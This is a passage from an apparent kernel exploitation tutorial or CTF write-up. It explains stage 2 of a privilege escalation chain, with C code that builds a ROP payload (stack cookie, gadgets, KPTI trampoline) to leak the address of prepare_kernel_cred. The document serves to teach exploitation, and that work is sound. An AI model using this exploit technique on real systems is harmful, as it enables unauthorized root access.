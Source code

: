 After returning from `kernel-mode`, we have to actually retrieve the value from `rax` to calculate the actual address of `commit_creds`. Notice that in the code, I used a variable called `tmp_store`, which is just an `unsigned long` global variable. This is a very convenient way to move the value from a register to memory using a small in-line assembly piece of code. Also remember to cast the value to `int`, because that is the data type in which `value_offset` is stored.

After that, I immediatelt make a call to `stage_2()` to continue the exploitation chain.

## Stage 2: leaking prepare_kernel_cred()
Nothing more to say in this stage, it is exactly the same as stage 1:
```C
void stage_2(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10; // rax <- __ksymtabs_prepare_kernel_cred - 0x10
    payload[off++] = read_mem_pop1_ret; // rax <- [__ksymtabs_prepare_kernel_cred]
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to leak prepare_kernel_cred()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}

void get_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("    --> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}
```

And with that, we have all the addresses that we need for a privileges escalation chain.
